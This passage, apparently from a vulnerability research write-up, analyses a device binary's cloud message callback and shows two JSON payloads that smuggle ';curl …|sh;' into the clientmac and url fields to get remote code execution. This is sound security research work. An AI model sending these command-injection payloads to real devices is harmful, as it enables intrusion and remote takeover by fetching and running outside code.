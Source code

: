 Those lines means that the binary expects a `command` key that contains a object with a `type` key:

```JSON
{"command": 
    {
        "type": "..."
        ...
    }
}
```

Now It is time to find RCE. There is obvious code execution within the message callback:

![Vulnerable call to do_system in message callback](cloud_message_callback_do_system.png)
_Vulnerable call to do_system in message callback_

To reach those statements and execute any command, all I need to do is send this JSON payload.

```json
{
    "now": "1715718611",
    "body": {
        "command": {
            "type": "set",
            "auth": [
                {
                    "radioid": "",
                    "status": "0",
                    "clientmac": ";curl 192.168.188.182:8080/sh|sh;"
                }
            ]
        }
    }
}
```

Note that this ends up in the "if" statement.

There is a similar vulnerability in the upgrade command:

![Code injection in upgrade command](cloud_message_callback_do_upgrade.png)
_Code injection in upgrade command_

Here is the payload:

```json
{
    "now": "1714350566",
    "body": {
        "command": {
            "type": "upgrade",
            "url": ";curl 192.168.188.182:8080/sh|sh;",
            "signature": "abcd",
            "wait": "1",
            "orderid": "abcd"
        }
    }
}
```
